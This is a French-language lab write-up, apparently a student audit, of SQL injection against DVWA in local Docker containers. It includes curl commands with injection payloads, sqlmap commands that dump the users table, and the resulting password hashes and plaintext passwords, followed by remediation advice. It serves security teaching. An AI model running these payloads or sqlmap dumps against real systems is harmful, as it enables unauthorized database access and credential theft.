









# Audit de securite - Plateforme Code un max

#### Exploitation de l'injection SQL sur DVWA

---

## 1. Vérifier que les deux conteneurs tournent
```bash
docker ps --format "{{.Names}}\t{{.Image}}"
```



## 1.1 Vérifier la connectivité vers la cible
```bash
docker exec attaquant ping -c 2 10.40.0.10
```


## 2. Récupération de la page de connexion DVWA
```bash
docker exec attaquant curl -s -c /tmp/cookie.txt http://10.40.0.10/login.php
```



## 3. S'authentifier avec le compte par défaut (admin/password)
```bash
docker exec attaquant sh -c "curl -s -b /tmp/cookie.txt http://10.40.0.10/login.php | grep -oE '[a-f0-9]{32}' | head -1 | xargs -I TKN curl -s -b /tmp/cookie.txt -c /tmp/cookie.txt --data username=admin --data password=password --data user_token=TKN --data Login=Login http://10.40.0.10/login.php -o /dev/null -w '%{http_code}\n'"
```
Résultat : `302`


## 4. Baisser le niveau de sécurité de DVWA à low
```bash
docker exec attaquant curl -s -b /tmp/cookie.txt "http://10.40.0.10/security.php" -d "security=low&seclev_submit=Submit"
```

## 5. Observer la requête légitime du formulaire
```bash
docker exec attaquant curl -s -b /tmp/cookie.txt "http://10.40.0.10/vulnerabilities/sqli/?id=1&Submit=Submit" | grep Surname
```


## 6. Réaliser une injection qui renvoie toutes les lignes de la BDD
#### 6.1 Condition toujours vraie
```bash
docker exec attaquant curl -s -b /tmp/cookie.txt "http://10.40.0.10/vulnerabilities/sqli/?id=1%27%20OR%20%271%27%3D%271&Submit=Submit"
```



### 6.2 Avec une clause UNION
```bash
docker exec attaquant curl -s -b /tmp/cookie.txt "http://10.40.0.10/vulnerabilities/sqli/?id=1%27%20UNION%20SELECT%20user(),database()%20--%20-&Submit=Submit"
```


## 7. SQLMAP
#### 7.1 Installer SQLMAP
```bash
docker exec attaquant sh -c "apt-get update && apt-get install -y sqlmap"
```

#### 7.1 Récupération du cookie de session pour sqlmap
```bash
docker exec attaquant cat /tmp/cookie.txt
```

#### 7.2 Lancer SQLMAP pour détecter l'injection
```bash
docker exec attaquant sh -c "grep PHPSESSID /tmp/cookie.txt | sed -E 's/.*PHPSESSID[[:space:]]+//' | xargs -I TOKEN sqlmap -u 'http://10.40.0.10/vulnerabilities/sqli/?id=1&Submit=Submit' --cookie='PHPSESSID=TOKEN; security=low' --batch --dbms=mysql"
```


* Parameter: id (GET)

* Type: boolean-based blind

* Type: error-based

* Type: UNION query

#### 7.3 Extraire la liste des tables avec sqlmap
```bash
docker exec attaquant sh -c "grep PHPSESSID /tmp/cookie.txt | sed -E 's/.*PHPSESSID[[:space:]]+//' | xargs -I TOKEN sqlmap -u 'http://10.40.0.10/vulnerabilities/sqli/?id=1&Submit=Submit' --cookie='PHPSESSID=TOKEN; security=low' --batch --dbms=mysql -D dvwa -T users --dump"
```


#### Données exfiltrées (Table `users`) :
| user_id | user | avatar | password (hash) | Mot de passe (clair) | last_name | first_name | last_login | failed_login |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 1 | admin | `/hackable/users/admin.jpg` | `5f4dcc3b5aa765d61d8327deb882cf99` | `password` | admin | admin | 2026-10-26 14:11:22 | 0 |
| 2 | gordonb | `/hackable/users/gordonb.jpg` | `e99a18c428cb38d5f260853678922e03` | `abc123` | Brown | Gordon | 2026-10-26 14:11:22 | 0 |
| 3 | 1337 | `/hackable/users/1337.jpg` | `8d3533d75ae2c3966d7e0d4fcc69216b` | `charley` | Me | Hack | 2026-10-26 14:11:22 | 0 |
| 4 | pablo | `/hackable/users/pablo.jpg` | `0d107d09f5bbe40cade3de5c71e9e9b7` | `letmein` | Picasso | Pablo | 2026-10-26 14:11:22 | 0 |
| 5 | smithy | `/hackable/users/smithy.jpg` | `5f4dcc3b5aa765d61d8327deb882cf99` | `password` | Smith | Bob | 2026-10-26 14:11:22 | 0 |
## 8. Bilan
## Vulnérabilité : Injection SQL (SQLi)

#### 8.1. Constat
* **Vulnérabilité** : Paramètre `id` vulnérable en raison d'une concaténation non filtrée des entrées utilisateur.
* **Preuve manuelle** : Condition logique vraie (`1' OR '1'='1`) validant l'injection booléenne.
* **Preuve automatisée (`sqlmap`)** : Détection de vecteurs *boolean-based blind*, *error-based* et *UNION query* sur un environnement MySQL / Apache 2.4.25.
* **Impact** : Exfiltration de la table `users` (identifiants et empreintes de mots de passe), entraînant une compromission totale de la confidentialité des données.

#### 8.2 Différences entre un code vulnérable et Sécurisé
##### 8.2.1 Code vulnérable
```php
$id = "1 OR 1=1";
$requete = "SELECT * FROM users WHERE id = " . $id;
```
```sql
SELECT * FROM users WHERE id = 1 OR 1=1
```
* *Résultat :* La base de données lit l'ordre `1=1` comme une condition toujours vraie. Elle affiche donc toute la table des utilisateurs. **La faille est exploitée.**

##### 8.2.1 Code sécurisé
```php
$id = "1 OR 1=1";
$requete = $pdo->prepare("SELECT * FROM users WHERE id = ?");
$requete->execute([ $id ]);
```
* *Résultat :* La base prend tout le contenu de la variable "1 OR 1=1" et le traite comme du texte brut.

### 8.3. Recommandations
* **Requêtes préparées** : Implémenter des requêtes paramétrées (ex: PDO) pour séparer strictement le code SQL des données.
* **Filtrage strict** : Valider et typer rigoureusement les entrées (ex: forcer un format numérique pour l'identifiant).
* **Moindre privilège** : Restreindre les droits du compte de base de données utilisé par l'application.
* **Politique Zero Trust** : Ne jamais faire confiance à l'utilisateur.
* **Utiliser un ORM (Object-Relationnal Mapping)** : C'est un intermédiaire entre le code et la base de données. Cela permet d'éviter d'écrire les requêtes SQL à la main. Les ORM utilisent toujours des requêtes préparées. Il en existe plusieurs comme Doctrine en PHP, Prisma, SQLAlchemy en Python


